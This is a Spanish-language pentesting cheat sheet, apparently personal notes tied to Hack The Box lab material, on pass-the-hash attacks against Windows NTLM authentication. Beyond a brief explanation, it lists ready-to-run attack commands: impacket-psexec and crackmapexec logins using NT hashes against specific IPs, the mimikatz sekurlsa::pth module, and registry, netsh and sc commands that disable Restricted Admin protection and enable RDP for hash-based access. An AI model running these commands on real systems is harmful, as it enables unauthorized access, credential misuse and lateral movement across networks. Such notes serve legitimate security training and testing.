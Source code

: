 # Pass the hash

#### [Pass the ticket](./passTheTicket.md)
#### [Pass the ticket LINUX](./passTheTicketLinux.md)
- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`

## Permitir Pth con RDP
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- ![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)
- Una vez de que la llave fue agregada al registro del sistema podemos intntar usar xfreerdp con la opción /pth

## Activar RDP si está desactivado
- `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes`
- `sc config TermService start= auto`
- `sc config TermService start= auto
- `net start TermService`